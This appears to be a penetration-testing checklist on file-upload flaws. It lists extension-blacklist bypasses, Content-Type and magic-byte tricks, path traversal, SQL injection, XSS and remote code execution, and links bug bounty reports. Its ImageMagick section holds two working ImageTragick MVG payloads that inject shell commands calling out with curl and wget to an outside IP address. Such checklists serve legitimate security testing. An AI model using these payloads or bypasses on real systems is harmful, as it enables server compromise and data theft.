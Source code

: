 # Bypass blacklists

- [ ] Test for file extension restriction bypasses
    - Finding missed extensions that can be executed on the server side or can be dangerous on the client side (e.g. ".php5", ".pht", ".phtml", ".shtml", ".asa", ".cer", ".asax", ".swf", or ".xap").
    - Finding flaws in a web server configuration when it parses files with double extensions or it executes them by providing a sensitive extension after a delimiter such as "/" or ";" character (e.g. "/file.jpg/index.php" when the "file.jpg" file contains PHP code and has been uploaded)
       - In Apache, a php file might be executed using the double extension technique such as "file.php.jpg" when ".jpg" is allowed.
        - In IIS6 (or prior versions), a script file can be executed by using one of these two methods:
            - by adding a semi-colon character after the forbidden extension and before the permitted one (e.g. "file.asp;.jpg")
            - by renaming a script file's extension (e.g. ".asp") to an allowed extension (e.g. ".txt") in a folder that its name ends with the script's extension (e.g. "folder.asp\file.txt"). In Windows, it is possible to create a directory by using a file uploader and ADS (Alternate Data Stream). In this method, a filename that ends with "::$Index_Allocation" or ":$I30:$Index_Allocation" makes the file uploader to create a directory rather than a file (e.g. "folder.asp::$Index_Allocation" creates "folder.asp" as a directory).
    - Changing a number of letters to their capital forms to bypass case sensitive rules (e.g. "file.aSp" or "file.PHp3").

- [ ] Test for Content-Type restriction bypasses

"Content-Type" entity in the header of the request indicates the Internet media type of the message content. Sometimes web applications use this parameter in order to recognise a file as a valid one. For instance, they only accept the files with the "Content-Type" of "text/plain".
It is possible to bypass this protection by changing this parameter in the request header using a web proxy.
    - https://hackerone.com/reports/97672
    
- [ ] Test for file header restrinction bypasses   
    - Keep the magic bytes at the start of the contents and then put a php payload after them.
    
- Using Windows 8.3 feature, it is possible to replace the existing files by using their shortname (e.g. "web.config" can be replaced by "web~1.con" or ".htaccess" can be replaced by "HTACCE~1")
- Finding characters that are converted to other useful characters during the file upload process. For instance, when running PHP on IIS, the ">", "<", and double quote " characters respectively convert to "?", "*", and "." characters that can be used to replace existing files (e.g. "web<<" can replace the "web.config" file). In order to include the double quote character in the filename in a normal file upload request, the filename in the "Content-Disposition" header should use single quotes (e.g. filename='web"config' to replace the "web.config" file).
- Finding neutral characters after a filename such as trailing spaces and dots in Windows filesystem or dot and slash characters in a Linux filesystem. These characters at the end of a filename will be removed automatically (e.g. "file.asp ... ... . . .. ..", "file.asp ", or "file.asp."). Although slash or backslash characters are also normally problematic characters, they can be ignored in a normal file upload request as anything before these characters may count as the directory name on the server-side; that said, they should be tried for a thorough test (e.g. "test.php/" or "test.php.\").
- Finding flaws in extension detection techniques. A web server may use the first extension after the first dot (".") in the provided filename or use a flawed algorithm to detect the extension when there is none or multiple dot characters (e.g. "file.txt.jpg.php").
- Using control characters such as null character (0x00) after a forbidden extension and before a permitted one may lead to a bypass. In this method, all the strings after the Null character will be discarded when saving the files. Both URL-encoded and decoded version of the null character should be tried in a file upload request for a thorough test.
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "file.asax:.jpg"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "file.asp::$data.")
- Flaws in the protection mechanism when it replaces dangerous extensions. For instance, "file.p.phphp" might be changed to "file.php" after going through this functionality.
- Flaws in the uploaded file usage for instance when a PHP application uses the "include" function to show the uploaded images.
- Combination of the above techniques.

# Path traversal in uploads
- [ ] Test for Directory traversal when uploading. When we upload files through a multipart post request, try adding `../` to the filename to check if we can upload the file further up in the filesystem.
    - https://hackernoon.com/cross-site-scripting-to-remote-code-execution-on-trellos-app-699512676f0c
    
# SQLi in uploads
- [ ] Test for SQL Injection in the filename parameter of the file upload.
    - https://jspin.re/fileupload-blind-sqli/
    
# XSS in uploads
- [ ] Test for XSS both in the filename parameter and the contents of the file.
    - https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e
    - https://hackerone.com/reports/93807
    - https://hackernoon.com/cross-site-scripting-to-remote-code-execution-on-trellos-app-699512676f0c
    - https://www.n00py.io/2018/03/microsoft-word-upload-to-stored-xss/
    - https://hackerone.com/reports/97672
    - https://hackerone.com/reports/216822
    - https://hackerone.com/reports/179164
    - https://hackerone.com/reports/97657
    - https://hackerone.com/reports/148853
    - https://hackerone.com/reports/122849
    - https://anotherhackerblog.com/exploiting-file-uploads-pt1/
    - https://brutelogic.com.br/blog/file-upload-xss/
    
# RCE in uploads
## Image Magic

"It's a good idea to observe requests during an image upload or in instances where the website allows image manipulation i.e cropping, since there's a possibility you could find command injection or SSRF through those requests" 

Exploits:

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`id | curl http://167.71.9.74:80/ -d @- > /dev/null`'
pop graphic-context
```
```
push graphic-context 
viewbox 0 0 640 480 
image over 0,0 0,0 'https://127.0.0.1/x.php?x=`wget -O- 167.71.9.74:80/ > /dev/null`' pop graphic-context
```
  - https://hackerone.com/reports/212696
  - http://nahamsec.com/exploiting-imagemagick-on-yahoo/

- [ ] Test for ImageTragic in MVG files
    - https://hethical.io/trello-bug-bounty-access-servers-files-using-imagetragick/​


- [ ] Test for RCE through PNG chunks
    - https://secgeek.net/bookfresh-vulnerability/
